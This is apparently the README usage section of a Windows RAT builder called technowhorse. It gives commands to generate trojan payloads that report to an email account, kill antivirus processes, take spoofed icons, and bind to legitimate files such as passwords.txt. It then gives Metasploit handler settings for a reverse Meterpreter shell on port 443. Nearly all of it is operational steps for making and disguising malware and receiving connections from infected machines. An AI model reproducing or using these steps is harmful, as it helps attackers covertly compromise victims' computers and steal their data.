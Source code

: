## How To Use in Windows
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/PushpenderIndia/technowhorse.git

# Go into the repository
$ cd technowhorse

# Installing dependencies
$ python -m pip install -r requirements.txt

# Open paygen.py in Text editor and Configure Line 14, set Pyinstaller path, Default Path is as follows :-
# PYTHON_PYINSTALLER_PATH = os.path.expanduser("C:/Python37-32/Scripts/pyinstaller.exe") 

# Getting Help Menu
$ python paygen.py --help

# Making Payload/RAT
$ python paygen.py --ip 127.0.0.1 --port 8080 -e youremail@gmail.com -p YourEmailPass -w -o output_file_name --icon icon_path

# Making Payload/RAT with Custom AVKiller [By Default, Tons of Know AntiVirus is added in Kill_Targets]
$ python paygen.py --ip 127.0.0.1 --port 8080 -e youremail@gmail.com -p YourEmailPass -l -o output_file_name --icon icon_path --kill_av AntiVirus.exe

# Making Payload/RAT binded with legitimate file [Any file .exe, .pdf, .txt etc]
$ python paygen.py --ip 127.0.0.1 --port 8080 -e youremail@gmail.com -p YourEmailPass -l -o output_file_name --icon icon/txt.ico --bind passwords.txt 

Note: You can also use our custom icons from the icon folder, just use them like this  --icon icon/pdf.ico
```

## Note:- Evil File will be saved inside dist/ folder, inside technowhorse/ folder

## Establishing Connection

* Recommended Settings, You can try to test it with any other payload in line 2
```
msf3> use exploit/multi/handler
msf3> set payload python/meterpreter/reverse_tcp
msf3> set LHOST 192.168.43.221
msf3> set LPORT 443
msf3> run
```

